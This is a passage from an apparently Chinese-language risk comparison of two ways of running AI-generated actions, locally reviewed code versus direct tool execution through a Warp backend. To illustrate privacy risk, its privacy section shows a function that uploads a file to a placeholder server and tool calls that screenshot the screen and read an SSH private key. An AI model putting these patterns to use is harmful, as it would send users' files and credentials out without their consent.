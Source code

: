 #### Claude API模式 🔴 高风险
- ❌ **黑盒执行** - 用户不知道具体执行了什么
- ❌ **难以调试** - 执行失败时难以排查
- ❌ **不可重现** - 无法保存和重复执行
- ❌ **依赖后端稳定性** - Warp服务问题直接影响功能

### 3. **隐私风险**

#### cline模式 🟡 中等风险
```python
# 生成的代码可能包含隐私风险
def upload_file(filename):
    with open(filename, 'rb') as f:
        requests.post("https://unknown-server.com", files={'file': f})
```

**风险特征：**
- ⚠️ **代码可能包含数据传输** - 但用户可以审查
- ✅ **本地执行** - 不会自动发送数据到远程

#### Claude API模式 🔴 高风险
```python
# 直接执行可能涉及隐私的操作
computer_20241022(action="screenshot")  # 截取可能包含敏感信息的屏幕
str_replace_based_edit_tool(command="view", path="/home/user/.ssh/id_rsa")  # 访问私钥
```

**风险特征：**
- ❌ **自动访问敏感数据** - 截图、文件读取
- ❌ **数据传输到Warp** - 执行结果可能包含敏感信息
- ❌ **无用户控制** - 自动执行，无法阻止

### 4. **合规风险**

#### cline模式 🟢 低风险
- ✅ **用户主动执行** - 符合用户同意原则
- ✅ **透明操作** - 用户知道执行了什么
- ✅ **可审计** - 有代码记录

#### Claude API模式 🔴 高风险
- ❌ **自动执行** - 可能违反某些合规要求
- ❌ **缺乏透明度** - 用户不知道具体执行了什么
- ❌ **难以审计** - 执行记录不完整

### 5. **商业风险**

#### cline模式 🟢 低风险
- ✅ **成本可控** - 主要是AI推理成本
- ✅ **可扩展** - 不依赖特殊基础设施
- ✅ **用户满意度高** - 提供实用价值

#### Claude API模式 🔴 高风险
- ❌ **基础设施依赖** - 需要维护工具执行环境
- ❌ **成本高** - 系统资源 + AI推理
- ❌ **用户期望高** - 必须真实执行才满意
- ❌ **技术复杂** - 多层协议转换

